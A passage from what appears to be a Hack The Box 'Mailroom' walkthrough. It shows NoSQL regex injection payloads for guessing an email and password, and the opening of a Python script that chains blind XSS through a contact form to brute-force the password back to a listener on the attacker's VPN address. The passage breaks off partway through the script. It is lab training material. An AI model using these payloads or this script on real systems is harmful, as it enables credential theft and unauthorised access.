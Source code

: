 ### NoSQL Guessing Game

* Possible Email from gitea instance - `tristan@mailroom.htb`, `administrator@mailroom.htb`, `matthew@mailroom.htb`
* Valid Email - `tristan@mailroom.htb`; paylaod -> `email[$regex]=^t&password[$regex]=^`
* Password Length - 12; payload -> `email=tristan@mailroom.htb&password[$regex]=.{12}`

For brute-forcing password, i automate the above manual NoSQL injection via blind XSS using python.
* This script create a javascript file in every iteration with new character in NoSQL payload, send that file in a XSS payload to `/contact.php` and wait for remote server to trigger blind XSS and send data.

*This is a very slow process, and could be unintended, but in-browser javascript based brute-force script wasn't working for me.*

```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-04-20
Description: This script exploits a blind NoSQL injection vulnerability to extract a 12-character password from a web application
             running on the Hack The Box Mailroom machine (IP: 10.10.11.209). The vulnerability is present in the parameter
             verification mechanism of the internal staff review panel. The password is leaked character by character using a regex-based
             blind NoSQL injection attack. The attack is performed by injecting an XSS payload via the contact form of the web
             application, which sends a POST request to the internal staff review panel with a NoSQL payload containing the guessed
             characters. If the guessed character is correct, script's http server receives "Check your inbox for an email with your 2FA token" message.

Usage: python3 script.py

Pre-requirements:
    - vHost must be added in the "/etc/hosts" file i.e "10.10.11.209 mailroom.htb"
    - HackTheBox VPN is connected on "tun0" interface
"""

import threading
import http.server
from base64 import b64decode
import re
import requests
import string
import netifaces as ni
import os

# Get HackTheBox vpn ip from tun0 interface
try:
    htb_vpn_inf = 'tun0'
    lhost = ni.ifaddresses(htb_vpn_inf)[ni.AF_INET][0]['addr']
except ValueError as e:
    print("[!] tun0 not found!")
    exit(e)

message_received = False

# Custom handler for http server for handling received requests
class RequestHandler(http.server.SimpleHTTPRequestHandler):
    def __init__(self, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.data_received_event = None
```